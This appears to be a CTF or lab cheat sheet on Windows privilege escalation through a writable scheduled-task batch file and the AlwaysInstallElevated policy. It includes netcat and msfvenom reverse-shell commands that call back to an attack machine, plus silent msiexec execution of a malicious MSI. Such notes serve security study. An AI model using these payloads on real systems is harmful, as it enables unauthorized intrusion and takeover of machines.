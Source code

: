 # Quick misconfiguration wins

Escalate through misconfigurations

1. Scheduled tasks
2. AlwaysInstallElevated

## Examples

### Scheduled tasks

1. List scheduled tasks:

```text
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
...
```

The `Task To Run` is of interest. If the current user can modify or overwrite the executable, we can control what gets executed by the `taskusr1` user, giving a simple privilege escalation.

2. Check the file permissions on the executable:

```text
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

In this case, the `BUILTIN\Users` group has full access (F) over the task's binary. This means we can modify the `.bat` file and insert any payload.

Change the `.bat` file to spawn a reverse shell:

```text
C:\> echo c:\tools\nc64.exe -e cmd.exe <IP address attack machine> 4444 > C:\tasks\schtask.bat
```

And start a listener on the attack machine:

```text
nc -lvp 4444
```

The next time the scheduled task runs, you should receive the reverse shell with `taskusr1` privileges. Depending on when the task is scheduled to run, this may take a looong time. 

### AlwaysInstallElevated

1. Query the registry values:

```text
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Both should be set for this exploitation to work.

2. Generate an evil `.msi` file using `msfvenom`:

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=<port-number> -f msi -o evil.msi
```
Run the Metasploit Handler module configured accordingly.

3. Transfer the file to `C:\Windows\Temp` on the target machine. 
4. Run the installer with the command below and receive the reverse shell:

```text
C:\> msiexec /quiet /qn /i C:\Windows\Temp\evil.msi
```

## Notes

These belong more to the realm of CTF events rather than real world scenarios.

* Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it is using a modifiable binary.
* Windows installer files (`.msi` files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. And they can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow for generating a malicious `.msi` file that would run with admin privileges.